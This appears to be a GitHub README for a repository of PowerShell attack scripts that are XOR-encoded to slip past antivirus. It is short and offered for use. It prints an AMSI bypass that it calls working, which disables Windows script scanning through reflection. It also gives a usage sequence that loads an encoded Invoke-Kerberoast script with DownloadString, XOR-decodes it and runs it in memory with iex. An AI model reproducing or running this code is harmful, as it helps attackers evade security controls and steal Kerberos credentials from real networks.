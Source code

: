 # PS-Scripts-Obfuscated
Powewrshell scripts xor encoded and convereted to .txt to avoid on disk detction. All credit to the authors. 


## The below is currently a working AMSI bypass.   
```
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)
```


## Usage Example: Run the powershell scripts using the below. 

```
PS C:\Users\User> $file = "C:\Users\User\Desktop\temp\Invoke-Kerberoast.txt"
PS C:\Users\User>
PS C:\Users\User> $enc = [system.Text.Encoding]::UTF8
PS C:\Users\User> $file = ((New-Object Net.Webclient).DownloadString($file))
PS C:\Users\User> $data = $enc.GetBytes($file)|%{$_-bXor0x11}
PS C:\Users\User> iex ([System.Text.Encoding]::ASCII.GetString($data))
```
